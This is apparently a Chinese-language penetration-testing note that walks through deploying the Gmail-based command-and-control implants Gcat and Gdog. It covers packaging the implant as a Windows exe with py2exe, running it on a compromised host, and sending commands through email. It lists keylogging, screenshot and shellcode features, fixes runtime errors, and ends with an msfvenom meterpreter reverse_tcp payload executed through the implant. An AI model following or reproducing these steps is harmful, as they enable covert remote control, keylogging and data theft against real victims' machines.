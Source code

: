  #### Gcat
	https://myaccount.google.com/lesssecureapps
	启用设置
![image](/assets/Pentest_Note/master/img/281.png)

	Gmail启用imap
![image](/assets/Pentest_Note/master/img/282.png)

	将以下脚本转换为exe
	# setup.py
	from distutils.core import setup
	import py2exe
 
	setup(console=['implant.py'])
	https://github.com/byt3bl33d3r/gcat
	把gcat项目中的implant.py跟以上脚本放在同一目录，修改implant.py中的账户信息
![image](/assets/Pentest_Note/master/img/283.png)

	>python 1.py py2exe打包
	dist目录下生成implant.exe受控机执行
	同时也要修改项目中gcat.py中的账户信息
![image](/assets/Pentest_Note/master/img/284.png)

	在受控机执行implant.exe，如果报错修改email模块以下三行
	from email.mime.multipart import MIMEMultipart
	from email.mime.base import MIMEBase
	from email.mime.text import MIMEText
![image](/assets/Pentest_Note/master/img/285.png)

	执行后，邮箱会收到信息
![image](/assets/Pentest_Note/master/img/286.png)

	使用gcat.py也可以得到当前会话
	>python gcat.py -list
![image](/assets/Pentest_Note/master/img/287.png)

	现在可对其进行控制
	>python gcat.py -id [id] -cmd 'net user'
![image](/assets/Pentest_Note/master/img/288.png)

	生成jobid，指定jobid可查看回显
![image](/assets/Pentest_Note/master/img/289.png)

	邮箱中也存在
![image](/assets/Pentest_Note/master/img/290.png)

	当受控机为中文系统时，回显会报错，修改代码
![image](/assets/Pentest_Note/master/img/291.png)

	其他模块有回显的直接修改后重新py2exe打包即可。
	支持的功能:cmd,upload/download,执行shellcode,键盘记录,截屏等
 #### Gdog
	https://github.com/maldevel/gdog
	功能更多:
	加密传输、地理位置、执行命令、上传下载、shellcode、截图、键盘记录、关闭重启、注销用户、从web下载、访问网站等
	配置流程基本一样，需要打包exe，但是要安装一些模块PyCrypto、WMI、Enum34、Netifaces
	# setup.py
	from distutils.core import setup
	import py2exe
	 
	setup(console=['client.py'])
	client.py在回显处也要添加decode gbk
	执行client.exe报超出索引错误时
	在client.py中搜索字符串for iface in netifaces.interfaces():
	在它下面一行修改为
	if netifaces.ifaddresses(iface)[netifaces.AF_LINK][0]['addr'] == self.MAC and netifaces.AF_INET in netifaces.ifaddresses(iface):
	打包好后执行
![image](/assets/Pentest_Note/master/img/292.png)
![image](/assets/Pentest_Note/master/img/293.png)
![image](/assets/Pentest_Note/master/img/294.png)
![image](/assets/Pentest_Note/master/img/295.png)

	提取jobid回显出错的话，添加
	reload(sys)
	sys.setdefaultencoding("utf-8")
	执行shellcode
	>msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform Windows EXITFUNC=thread LPORT=4444 LHOST=x.x.x.x -f python
	去除引号加减号，只保留shellcode粘贴到文件shell.txt
	>python gdog.py -id {id} -exec-shellcode /tmp/shell.txt